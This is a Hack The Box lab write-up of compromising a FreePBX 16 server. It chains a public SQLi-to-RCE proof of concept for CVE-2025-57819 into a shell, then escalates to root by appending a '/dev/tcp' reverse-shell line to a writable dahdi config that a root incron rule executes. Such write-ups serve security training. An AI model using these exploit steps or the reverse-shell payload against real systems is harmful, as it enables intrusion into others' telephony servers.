


# Connected - Easy

Target IP: **10.129.245.100**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.245.100 -v```

Output shows standard port 22 for ssh, port 80 running Apache 2.4.6, and port 443 for https.

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 4e:60:38:6f:e7:78:6c:ca:58:62:a1:f1:56:ae:8d:30 (RSA)
|   256 12:41:55:26:9d:ad:3d:e8:bf:4e:31:aa:d7:d1:a5:d2 (ECDSA)
|_  256 8e:b6:96:e0:21:83:5d:1d:ce:8d:e2:6a:dd:38:c6:75 (ED25519)
80/tcp  open  http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://connected.htb/
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
443/tcp open  ssl/http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16)
| ssl-cert: Subject: commonName=pbxconnect/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=pbxconnect/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-11-30T14:07:27
| Not valid after:  2026-11-30T14:07:27
| MD5:   2530:86e8:e962:6d48:36f8:e524:bf79:cc5a
|_SHA-1: 6997:e786:d78e:2d0a:dcb4:f449:7f65:ba12:52ef:0466
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.4.16
| http-title: 404 Not Found
|_Requested resource was config.php
```

Let's add ```connected.htb``` to our ```/etc/hosts``` file and navigate.

It seems like an instance of FreePBX, and we can see the version at the bottom, 16.0.40.7.

Also, there is a string ```j1c4dgmv6sk20dm4kbuprdkdvr``` that is shown on the page that seems unusual. This matches with the ```PHPSESSID``` that is set for us.



The version of FreePBX is vulnerable to CVE-2025-61678, an authenticated RCE vulnerability.

However, I'm not having much luck on finding the credentials for the login panel at ```/ucp```. Default and common passwords don't seem to work.



There is another CVE, CVE-2025–57819, that looks more promising. This is an unauthenticated SQLi vulnerability. The two CVEs are chained together to get us RCE.

Here is a [PoC](https://github.com/K3ysTr0K3R/CVE-2025-57819). Let's try it.

After running the exploit, we catch a shell as ```asterisk```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-sv0tzgyj4e]─[~]
└──╼ [★]$ python3 exploit.py -u http://connected.htb --lhost 10.10.15.194 --lport 4444
CVE-2025-57819 • FreePBX SQLi → RCE
Coded By: K3ysTr0K3R
Need a hug? ʕっ•ᴥ•ʔっ

[*] Target locked: http://connected.htb
[*] Reverse listener armed on 10.10.15.194:4444, awaiting callback...
[+] Exploit path confirmed!
[*] Injecting payload into cron schedule...
[+] Payload planted successfully (server response: 500)
[*] Awaiting trigger activation (cron will fire within ~60 seconds)...
[*] Backdoor callback expected from 10.10.15.194:4444 in the next 60–90 seconds...
[+] Incoming shell session acquired from ('10.129.245.100', 57496)!
[*] Interactive control established. Type 'exit' to terminate session.
bash: no job control in this shell
[asterisk@connected ~]$ whoami
whoami
asterisk
```

We can proceed to get the user flag from here.

## Root Flag

There is an unusual binary ```incrontab``` that has the SUID bit set.

```
[asterisk@connected ~]$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/umount
/usr/bin/pkexec
/usr/bin/crontab
/usr/bin/incrontab
/usr/bin/at
/usr/bin/staprun
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/userhelper
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
/usr/libexec/abrt-action-install-debuginfo-to-abrt-cache
```

Inside ```/etc/incron.d```, there are rules that looks for modifications in certain files. If it is detected, it runs some binary.

Additionally, these are all owned by ```root``` and are readable, which indicates that these will run under the context of ```root```.

```
[asterisk@connected incron.d]$ cat legacy
cat legacy
/var/spool/asterisk/sysadmin/vpnget IN_CLOSE_WRITE /usr/sbin/sysadmin_openvpn -d
/var/spool/asterisk/sysadmin/intrusion_detection_stop IN_CLOSE_WRITE /etc/init.d/fail2ban stop
/var/spool/asterisk/sysadmin/update_system_cron IN_CLOSE_WRITE /usr/sbin/sysadmin_update_set_cron
/var/spool/asterisk/sysadmin/portmgmt_setup IN_CLOSE_WRITE /usr/sbin/sysadmin_portmgmt
/var/spool/asterisk/sysadmin/wanrouter_restart IN_CLOSE_WRITE /usr/sbin/sysadmin_wanrouter_restart
/var/spool/asterisk/sysadmin/dahdi_restart IN_CLOSE_WRITE /usr/sbin/sysadmin_dahdi_restart
/usr/local/asterisk/ha_trigger IN_CLOSE_WRITE /usr/sbin/sysadmin_ha
```

Looking for writable configuration files, it seems like we have write permissions over the configuration file for ```dahdi```.

```
[asterisk@connected sysadmin]$ find / -type f -name "*.conf" -writable 2>/dev/null
<n]$ find / -type f -name "*.conf" -writable 2>/dev/null                     
/etc/modprobe.d/dahdi.conf
/etc/dahdi/init.conf
/etc/dahdi/system.conf
```

From the name, it seems like ```init.conf``` is probably ran when the service restarts.

```
[asterisk@connected sysadmin]$ cat /etc/dahdi/init.conf
cat /etc/dahdi/init.conf
#
# Shell settings for Dahdi initialization scripts.
# This replaces the old/per-platform files (/etc/sysconfig/zaptel,
# /etc/defaults/zaptel)
#

# The maximal timeout (seconds) to wait for udevd to finish generating 
# device nodes after the modules have loaded and before running dahdi_cfg. 
#DAHDI_DEV_TIMEOUT=40

# A list of modules to unload when stopping.
# All of their dependencies will be unloaded as well.
#DAHDI_UNLOAD_MODULES=""		# Disable module unloading
#DAHDI_UNLOAD_MODULES="dahdi echo"	# If you use OSLEC

# Override settings for xpp_fxloader
#XPP_FIRMWARE_DIR=/usr/share/dahdi
#XPP_HOTPLUG_DISABLED=yes
#XPP_HOTPLUG_DAHDI=yes
#ASTERISK_SUPPORTS_DAHDI_HOTPLUG=yes

# Disable udev handling:
#DAHDI_UDEV_DISABLE_DEVICES=yes
#DAHDI_UDEV_DISABLE_SPANS=yes
```

Since we have write permissions, we can put some malicious code in there to have it run.

```
[asterisk@connected sysadmin]$ echo -n "bash -c 'bash -i >& /dev/tcp/10.10.15.194/4445 0>&1'" >> /etc/dahdi/init.conf
```

Now, if we modify ```/var/spool/asterisk/sysadmin/dahdi_restart```, we should get a shell back.

```
[root@connected /]# whoami
whoami
root
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
